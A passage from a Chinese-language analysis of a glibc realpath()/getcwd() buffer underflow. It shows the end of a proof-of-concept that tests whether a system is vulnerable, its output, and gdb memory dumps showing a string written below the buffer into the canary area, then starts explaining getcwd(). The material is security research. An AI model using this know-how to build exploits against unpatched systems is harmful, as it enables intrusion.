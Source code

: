 ```c
    } else {
        puts("Not vulnerable");
    }
}
```
```
# gcc -g poc.c
# ./a.out
Vulnerable
```
执行 `realpath()` 前：
```
gdb-peda$ x/g buf.canary
0x7fffffffe4d0: 0x000000000000002f
gdb-peda$ x/15gx 0x7fffffffe4d0
0x7fffffffe4d0: 0x000000000000002f 0x00000000000000c2   <-- canary
0x7fffffffe4e0: 0x3030303030303030 0x3030303030303030   <-- buffer
0x7fffffffe4f0: 0x3030303030303030 0x3030303030303030
0x7fffffffe500: 0x3030303030303030 0x3030303030303030
0x7fffffffe510: 0x3030303030303030 0x3030303030303030
0x7fffffffe520: 0x3030303030303030 0x3030303030303030
0x7fffffffe530: 0x00007fffffffe620 0x13ca8a6b7215a800
0x7fffffffe540: 0x0000000000000000
```
执行 `realpath()` 后：
```
gdb-peda$ x/15gx 0x7fffffffe4d0
0x7fffffffe4d0: 0x000000424242422f 0x00000000000000c2   <-- canary
0x7fffffffe4e0: 0x68636165726e7528 0x6f682f29656c6261   <-- buffer
0x7fffffffe4f0: 0x746e7562752f656d 0x6f64666c61682f75
0x7fffffffe500: 0x3030303030300067 0x3030303030303030
0x7fffffffe510: 0x3030303030303030 0x3030303030303030
0x7fffffffe520: 0x3030303030303030 0x3030303030303030
0x7fffffffe530: 0x00007fffffffe620 0x13ca8a6b7215a800
0x7fffffffe540: 0x0000000000000000
gdb-peda$ x/s 0x7fffffffe4d0
0x7fffffffe4d0:  "/BBBB"
gdb-peda$ x/s 0x7fffffffe4e0
0x7fffffffe4e0:  "(unreachable)/home/ubuntu/halfdog"
```
正常情况下，字符串 `\BBBB` 应该只能在 buffer 范围内进程操作，而这里它被复制到了 canary 里，也就是发生了下溢出。


## 漏洞分析
`getcwd()` 的原型如下：
```c
#include <unistd.h>

char *getcwd(char *buf, size_t size);
```
它用于得到一个以 null 结尾的字符串，内容是当前进程的当前工作目录的绝对路径。并以保存到参数 buf 中的形式返回。
